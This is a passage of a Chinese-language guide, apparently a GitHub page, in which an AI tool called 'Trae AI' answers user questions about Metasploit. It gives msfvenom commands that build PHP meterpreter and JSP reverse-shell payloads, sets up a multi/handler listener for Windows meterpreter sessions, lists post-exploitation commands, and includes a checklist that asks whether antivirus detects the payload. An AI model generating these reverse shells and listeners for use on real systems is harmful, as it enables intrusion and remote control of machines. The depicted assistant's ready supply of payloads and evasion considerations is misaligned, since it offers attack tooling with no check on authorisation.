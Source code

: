 ```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f raw -o $OUTPUT_DIR/payload.php
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f raw -o $OUTPUT_DIR/payload.jsp

echo "Payloads generated in $OUTPUT_DIR"
```

## Payload 測試和驗證

### 16. Payload 功能測試

**用戶提問：**
```
如何測試生成的 payload 是否正常工作？
```

**Trae AI 測試流程：**
```
# 1. 設置監聽器
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
exploit

# 2. 在測試環境中執行 payload
# 3. 驗證連接建立
# 4. 測試基本功能
sysinfo
getuid
ps
```

### 17. Payload 兼容性檢查

**用戶提問：**
```
檢查 payload 與目標系統的兼容性
```

**Trae AI 檢查清單：**
1. **架構匹配**：32位 vs 64位
2. **操作系統版本**：Windows 7/10/11, Linux 發行版
3. **防病毒軟件**：是否被檢測
4. **網絡環境**：防火牆和代理設置
5. **權限要求**：是否需要管理員權限

## 安全和合規

### 18. Payload 安全處理

**用戶提問：**
```
如何安全地處理和存儲生成的 payload？
```
